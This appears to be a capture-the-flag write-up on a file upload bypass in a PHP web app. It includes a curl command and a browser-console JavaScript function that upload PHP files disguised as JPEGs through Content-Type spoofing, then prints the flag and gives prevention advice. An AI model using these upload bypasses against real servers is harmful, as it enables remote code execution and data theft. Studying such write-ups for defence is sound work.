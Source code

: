 # File Upload Bypass Vulnerability

## Overview
The upload feature at `/index.php?page=upload` allows attackers to upload PHP files by tricking the application to accept non-image files.

---

## Discovery

1. Upload form only allows `.jpg` and `.jpeg` files.
2. JavaScript blocks empty uploads, but not actual file content.
3. The app checks file extensions but not the real content.

---

## Exploitation

### **Method 1: cURL Content-Type Spoofing**

```bash
echo '<?php echo "hello"; ?>' > test.php

curl http://<IP_ADDRESS>/index.php?page=upload \
  -F "Upload=Upload" \
  -F "uploaded=@test.php;type=image/jpeg" \
  -F "MAX_FILE_SIZE=100000"
```
- The PHP file is uploaded as if it’s a JPEG by spoofing the content-type.

---

### **Method 2: JavaScript in Browser Console**

1. Open the upload page.
2. Run this in the Console:

   ```javascript
   async function bypassUpload() {
     const uploadUrl = window.location.origin + "/index.php?page=upload";
     const phpCode = "<?php echo 'Bypassed!'; ?>";
     const formData = new FormData();
     const fileBlob = new Blob([phpCode], { type: "image/jpeg" });
     formData.append("uploaded", fileBlob, "image.php");
     formData.append("Upload", "Upload");
     const response = await fetch(uploadUrl, { method: "POST", body: formData });
     const html = await response.text();
     console.log(html);
   }
   bypassUpload();
   ```

---

## Flag

`46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

---

## Security Impact

- **Remote Code Execution:** Upload and run PHP code on the server
- **Data Theft:** Access sensitive files and data
- **System Compromise:** Full server takeover possible

---

## Prevention

1. **Validate actual file content, not just extensions**
2. **Use libraries (like fileinfo) for file type checks**
3. **Re-encode images on the server**
4. **Store uploads in non-executable locations**
5. **Apply a strict Content Security Policy**

---
